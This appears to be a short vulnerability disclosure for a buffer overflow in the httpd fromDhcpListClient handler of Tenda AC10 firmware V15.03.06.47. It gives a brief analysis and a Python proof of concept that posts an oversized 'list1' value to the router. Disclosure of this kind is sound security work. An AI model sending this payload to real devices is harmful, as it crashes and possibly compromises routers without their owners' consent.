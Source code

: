 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/fromDhcpListClient

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](7.png)

get value from strlist ,named list1、list2······, and we must set listcnt more than 1




## POC
```
url = "http://192.168.1.13/goform/fromDhcpListClient"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list1': payload, 'LISTLEN': 1})
``` 
